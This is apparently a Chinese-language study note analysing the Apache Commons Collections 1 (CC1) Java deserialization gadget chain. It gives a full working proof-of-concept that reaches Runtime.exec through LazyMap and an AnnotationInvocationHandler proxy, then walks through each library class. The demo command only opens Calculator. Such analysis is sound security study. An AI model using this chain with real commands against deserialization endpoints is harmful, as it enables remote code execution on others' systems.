 # CC1代码分析

POC

```java
package demo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})};
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}

```



```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})};
```

创建Transformers数组，存放实现了transform接口的类示例。transform接口

```java
public interface Transformer {
    Object transform(Object var1);
}
```

数组第一个元素为ConstantTransformer

```java
public class ConstantTransformer implements Transformer, Serializable {
    static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;

    public static Transformer getInstance(Object constantToReturn) {
        return (Transformer)(constantToReturn == null ? NULL_INSTANCE : new ConstantTransformer(constantToReturn));
    }

    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }

    public Object getConstant() {
        return this.iConstant;
    }
}
```

transform返回类对象。

后面三个元素都是InvokerTransformer

```java
    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var6) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var7) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
            }
        }
    }
```

获取输出的类对象，获取iMethodName方法并通过invoke执行。

接下来

```java
        Transformer transformerChain = new ChainedTransformer(transformers);
```

ChainedTransformer将transformers串联起来，并将结果传递给下一个元素的

transformer函数作为object input参数

```java
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }
```

上述代码实现获取了Runtime -> getRuntime ->exec并用invoke执行方法，相当于invoke.invoke(java.lang.Runtime.getRuntime,null)。到这里核心利用链已经构造好了。接下来就是要找到可以调用到ChainedTransformer.transform去执行Transformers链的方法。这里用了LazyMap。

```java
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

decorates设置了map和this.factory并返回对象。

```java
    public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }

    protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        } else {
            this.factory = factory;
        }
    }
```

LazyMap的get方式执行了transform

```java
    public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
```

要找到一个调用了LazyMap.get方法，并且实现了序列化接口的方法。CC1找到了sun.reflect.annotation.AnnotationInvocationHandler#invoke方法，并使用动态代理执行invoke方法。动态代理会自动调用被代理的对象的invoke方法

```java
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
```

获取类sun.reflect.annotation.AnnotationInvocationHandler对象；

获取构造方法；

xxxx.setAccessible(true)绕过权限控制，设置了true意味着可以获取到私有、受保护的对象；

实现InvocationHandler接口，proxy代理实例的调用处理程序实现的一个接口，每一个proxy代理实例都有一个关联的调用处理程序；在代理实例调用方法时，方法调用被编码分派到调用处理程序的invoke方法。传入outerMap实例化sun.reflect.annotation.AnnotationInvocationHandler。

设置动态代理对象；

sun.reflect.annotation.AnnotationInvocationHandler#invoke方法调用get部分

```java
            default:
                Object var6 = this.memberValues.get(var4);
                if (var6 == null) {
                    throw new IncompleteAnnotationException(this.type, var4);
                } else if (var6 instanceof ExceptionProxy) {
                    throw ((ExceptionProxy)var6).generateException();
                } else {
                    if (var6.getClass().isArray() && Array.getLength(var6) != 0) {
                        var6 = this.cloneArray(var6);
                    }

                    return var6;
                }
            }
```

下面就是系列化对象了

```java
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
```

利用过程：

动态代理调用sun.reflect.annotation.AnnotationInvocationHandler#invoke方法

​		invoke方法调用lazyMap#get

​				get调用ChainedTransformer#transform

​						transform循环调用transformers元素的transform并把结果传递到下一个循环作为transform参数				
